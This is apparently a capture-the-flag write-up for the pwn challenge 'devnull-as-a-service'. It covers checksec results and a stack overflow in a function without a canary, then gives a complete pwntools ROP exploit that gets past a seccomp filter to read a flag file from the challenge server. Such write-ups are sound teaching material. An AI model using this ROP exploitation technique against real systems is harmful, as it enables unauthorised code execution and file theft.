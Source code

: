 # Challenge: devnull-as-a-service

## Category: Pwn

## Challenge description
A few months ago, I came across this website. Inspired by it, I decided to recreate the service in C to self-host it.
To avoid any exploitable vulnerabilities, I decided to use a very strict seccomp filter. Even if my code were vulnerable, good luck exploiting it.
PS: You can find the flag at /home/ctf/flag.txt on the remote server. 

## Files given
- dev_null: ELF file, statistically linked

## Examination
- First, lets checksec to see security mitigations of the file:
``` console
$ checksec --file=dev_null
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
- So we can exploit PIE disabled statistically linked binary by ret2plt. Also, reversing the binary helps us see that although canary is found in checksec, the dev_null() function doesn't have a canary, which means buffer overflow is possible.

## Solution
- First, we can see that seccomp makes it only possible to use open, read, write syscalls.
- Also, there are a lot of functions that help IO process (since it is statistically linked) in the plt section
- By using these functions, we can read the flag file name to .bss section, open, read and write the flag.

## Exploit Script
```python
from pwn import *

elf = ELF('dev_null')
rop = ROP(elf)

address_open = p64(elf.symbols['__libc_open'])
address_read = p64(elf.symbols['__libc_read'])
address_write = p64(elf.symbols['__libc_write'])
address_gets = p64(elf.symbols['_IO_gets'])

address_rax = p64(rop.rax.address) # pop rax, ret
address_rsi = p64(rop.rsi.address) # pop rsi, pop rbp, ret
address_rdi = p64(rop.rdi.address) # pop rdi, ret
address_rdx = p64(0x000000000041799b) # xchg eax, edx, ret
address_ret = p64(0x000000000041913f) # ret

payload = b'A' * 16 # padding

address_buffer_for_file_name = p64(0x4afac0)
address_buffer_for_flag = p64(0x4afbc0)

flag_name = '/home/ctf/flag.txt'.encode()

# Read the flag file name
payload += address_rdi + address_buffer_for_file_name + address_ret + address_gets

# Open the flag file
payload += address_rdi + address_buffer_for_file_name + address_rsi + p64(0) + p64(0) + address_ret + address_rax + p64(0x444) + address_rdx + address_open

# Read the flag
payload += address_rdi + p64(3) + address_rsi + address_buffer_for_flag + p64(0) + address_ret + address_rax + p64(0xff) + address_rdx + address_read

# Write the flag to stdout
payload += address_rdi + p64(1) + address_rsi + address_buffer_for_flag + p64(0) + address_ret + address_rax + p64(0xff) + address_rdx + address_write

host = 'aeedc061-6dd4-4947-b23b-5f1596bb9782.x3c.tf'
port = 31337
p = remote(host=host, port=port, ssl=True)

print(p.recv().decode())
p.sendline(payload)
p.sendline(flag_name)
print(p.recvall())
p.close()



```